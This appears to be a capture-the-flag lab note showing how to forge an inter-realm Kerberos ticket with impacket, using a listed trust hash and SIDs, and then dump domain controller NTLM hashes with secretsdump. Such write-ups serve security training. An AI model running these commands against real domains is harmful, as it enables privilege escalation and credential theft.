 

## Attack via Inter-Real Ticket ! 
[Read_Blog](https://mayfly277.github.io/posts/GOADv2-pwning-part12/#trust-ticket---forge-inter-realm-tgt)


What we need to :

Domain-Sid :: S-1-5-21-2034262909-2733679486-179904498

EA-Sid :: S-1-5-21-4084500788-938703357-3654145966-519[519 --> Rid of EA]

Rc4 Hash :: b8577d1ec55fd7e4345be7c24647dc06



### LINUX

1 . Forge the ticket .

```zsh
impacket-ticketer -nthash b8577d1ec55fd7e4345be7c24647dc06 -domain-sid S-1-5-21-2034262909-2733679486-179904498 -domain corp.ghost.htb -extra-sid S-1-5-21-4084500788-938703357-3654145966-519 -spn krbtgt/ghost.htb escape
```

```zsh
export KRB5CCNAME=escape.ccache
```


2 . Now we will use the forged TGT to ask a ST on the parent domain.

```zsh
impacket-getST -k -no-pass -spn cifs/DC01.ghost.htb ghost.htb/escape@ghost.htb -debug
```

```zsh
export KRB5CCNAME=escape@ghost.htb@cifs_DC01.ghost.htb@GHOST.HTB.ccache
```


3 .  And now we can use our service ticket to dump credentials . 

```zsh
impacket-secretsdump -k -no-pass escape@DC01.ghost.htb -just-dc-ntlm
```

#### WINDOWS

